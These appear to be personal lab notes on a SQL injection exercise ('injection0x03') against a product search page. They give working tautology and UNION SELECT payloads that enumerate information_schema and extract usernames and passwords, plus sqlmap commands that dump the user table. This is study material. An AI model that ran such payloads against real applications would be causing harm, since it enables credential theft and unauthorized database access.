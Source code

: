 
![[Pasted image 20230718205817.png]]

need to enter valid product name

i/p:
x' 1=1#
this returns all the products

and does not give the response of invalid i/p
so we have sql injection

i/p:
Itamae Knife Set' union select null,null,null,null#
Itamae Knife Set is valid i/p item
***need to provide same number of columns/attributes for UNION to work***

this gives true result so table has 4 columns which makes sense coz
1)name
2)price
3)currency
4)image

i/p:
Itamae Knife Set' union select null,null,null,table_name from information_schema.tables#

o/p:

![[Pasted image 20230718213011.png]]

we we get lots of tables name
![[Pasted image 20230718213206.png]]


i/p:
Itamae Knife Set' union select null,null,null,column_name from information_schema.columns#

o/p:

![[Pasted image 20230718213355.png]]

i/p:
Itamae Knife Set' union select null,null,null,password from injection0x03_users#

o/p:
![[Pasted image 20230718213739.png]]

i/p:
Itamae Knife Set' union select null,null,null,username from injection0x03_users#

o/p:
![[Pasted image 20230718213816.png]]


can use intruder or sqlmap to get all the columns

```sh
sqlmap -r req3.txt -T injection0x03_users 
```

![[Pasted image 20230718214407.png]]

```sh
sqlmap -r req3.txt -T injection0x03_users --dump
```

![[Pasted image 20230718214613.png]]

